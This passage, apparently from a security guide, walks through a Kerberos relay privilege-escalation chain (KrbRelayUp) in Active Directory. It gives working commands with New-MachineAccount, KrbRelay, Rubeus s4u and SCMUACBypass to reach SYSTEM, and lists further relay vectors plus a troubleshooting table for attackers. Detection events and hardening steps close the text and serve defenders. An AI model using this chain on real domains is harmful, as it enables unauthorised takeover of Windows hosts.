 - 3.4 **Relay the AP-REQ**

KrbRelay extracts the GSS blob from SMB, repackages it into an LDAP bind, and forwards it to `ldap://DC01`—authentication succeeds because the **same key** decrypts it.

- 3.5 **Abuse LDAP ➜ RBCD ➜ SYSTEM**

```powershell
# (auto inside KrbRelayUp) manual for clarity
New-MachineAccount -Name "FAKE01" -Password "P@ss123"
KrbRelay.exe -spn ldap/DC01 -rbcd FAKE01_SID
Rubeus s4u /user:FAKE01$ /rc4:<hash> /impersonateuser:administrator /msdsspn:HOST/DC01 /ptt
SCMUACBypass.exe
```
You now own **NT AUTHORITY\SYSTEM**.


### **More paths worth knowing**

| Vector | Trick | Why it matters |
|--------|-------|----------------|
| **AuthIP / IPSec** | Fake server sends a **GSS-ID payload** with any SPN; client builds an AP-REQ straight to you | Works even across subnets; machine creds by default |
| **DCOM / MSRPC** | Malicious OXID resolver forces client to auth to arbitrary SPN and port | Pure *local* priv-esc; sidesteps firewall |
| **AD CS Web Enroll** | Relay machine ticket to `HTTP/CA` and get a cert, then **PKINIT** to mint TGTs | Bypasses LDAP signing defenses |
| **Shadow Credentials** | Write `msDS-KeyCredentialLink`, then PKINIT with forged key pair | No need to add a computer account |

### **Troubleshooting**

| Error | Meaning | Fix |
|-------|---------|-----|
| `KRB_AP_ERR_MODIFIED` | Ticket key ≠ target key | Wrong host/SPN |
| `KRB_AP_ERR_SKEW` | Clock > 5 min offset | Sync time or use `w32tm` |
| LDAP bind fails | Signing enforced | Use AD CS path or disable signing |
| Event 4649 spam | Service saw duplicate Authenticator | block or race original packet |


### **Detection**

* Surge in **Event 4769** for `CIFS/`, `HTTP/`, `LDAP/` from the same source within seconds.  
* **Event 4649** on the service indicates replay detected.  
* Kerberos logon from **127.0.0.1** (relay to local SCM) is highly suspicious—map via Sigma rule in KrbRelayUp docs.  
* Watch changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` or `msDS-KeyCredentialLink` attributes.

## **Hardening**

1. **Enforce LDAP & SMB signing + EPA** on every server.  
2. **Split SPNs** so HTTP isn’t on the same account as CIFS/LDAP.  
3. Patch coercion vectors (PetitPotam KB5005413, DFS, AuthIP).  
4. Set **`ms-DS-MachineAccountQuota = 0`** to stop rogue computer joins.  
5. Alert on **Event 4649** and unexpected loopback Kerberos logons.
